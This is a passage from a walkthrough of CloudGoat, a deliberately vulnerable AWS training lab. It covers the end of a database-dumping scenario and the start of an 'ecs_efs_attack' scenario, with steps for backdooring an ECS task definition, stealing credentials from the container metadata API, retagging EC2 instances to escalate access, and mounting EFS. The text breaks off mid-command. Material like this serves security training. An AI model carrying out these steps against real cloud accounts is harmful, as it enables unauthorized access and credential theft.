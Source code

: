```bash
# securedb ->
# securedb -> \dt
# securedb -> select * from sensitive_information;


# Destroy the scenario resources
python3 cloudgoat.py destroy codebuild_secrets

```





---


### Scenarios 8: ecs_efs_attack (Large / Hard)



| ++            | ++                                                    |
| ------------- | ----------------------------------------------------- |
| Scenario Goal | get the SSH keys which grant direct access to the EC2 |
| Size          | Large                                                 |
| Difficulty    | Hard                                                  |
| Command       | `$ ./cloudgoat.py create ecs_efs_attack`              |



Starting with access the "ruse" EC2
- the user leverages the instance profile to backdoor the running ECS container.
- Using the backdoored container the attacker can retrieve credentials from the container metadata API.
- These credentials allow to start a session on any EC2 with the proper tags set.
- The attacker uses their permissions to change the tags on the Admin EC2 and starts a session.
- Once in the Admin EC2, port scan the subnet for an open EFS to mount.
- Once mounted, retrieve the flag from the elastic file system.


![diagram](https://i.imgur.com/s63NaoU.png)

```bash


# Access the "Ruse_Box" ec2 using the provide access key.
ssh -i cloudgoat ubuntu@<IP ADDRESS>
# Configure the role credentials
aws configure --profile ruse
aws iam list --profile ruse

# From the ec2 enumate permission.

# list available ec2 and note how the tags are configured.
aws ec2 describe-instances --profile ruse

# enumate existing ecs cluster and backdoor the existing task defniniton.
aws ecs list-clusters --profile ruse
# List services in cloudgoat cluster
aws ecs list-services --cluster <CLUSTER ARN> --profile ruse
# Download task definition
aws ecs describe-task-definition \
    --task-definition <TASK_NAME>:<VERSION> \
    --profile ruse > task_def.json
# Download template to register a new task
aws ecs register-task-definition \
```